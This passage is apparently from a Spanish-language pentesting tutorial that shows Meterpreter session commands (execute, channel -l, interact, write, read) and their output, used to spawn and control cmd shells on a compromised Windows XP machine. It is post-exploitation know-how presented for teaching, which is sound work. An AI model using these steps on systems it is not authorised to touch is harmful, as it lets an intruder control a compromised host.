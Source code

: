 meterpreter > execute -f cmd -c

Process 2860 created.

Channel 13 created.

Como se ha podido apreciar, se han creado diferentes canales con un proceso asociado, posteriormente es posible consultarlos con el comando channel:

meterpreter > channel -l

Id Class Type

– —– —-

11 3 stdapi_process

12 3 stdapi_process

13 3 stdapi_process

Si se desea interactuar con alguno de esto canales, se utiliza el comando “interact” para definir alguno de los canales creados y posteriormente interactuar con él.

meterpreter > interact 11

Interacting with channel 11…

Microsoft Windows XP [Version 5.1.2600]

(C) Copyright 1985-2001 Microsoft Corp.

c:\>exit

meterpreter > channel -l

Id Class Type

– —– —-

12 3 stdapi_process

13 3 stdapi_process

Otra forma de interactuar con un canal, es utilizando los comandos read y write, que permiten enviar flujos de datos a un canal definido de una forma sencilla:

meterpreter > write 12

Enter data followed by a ‘.’ on an empty line:

echo “Hola!”

.

[\*] Wrote 13 bytes to channel 12.

meterpreter > read 12

Read 116 bytes from 12:

Microsoft Windows XP [Version 5.1.2600]

(C) Copyright 1985-2001 Microsoft Corp.
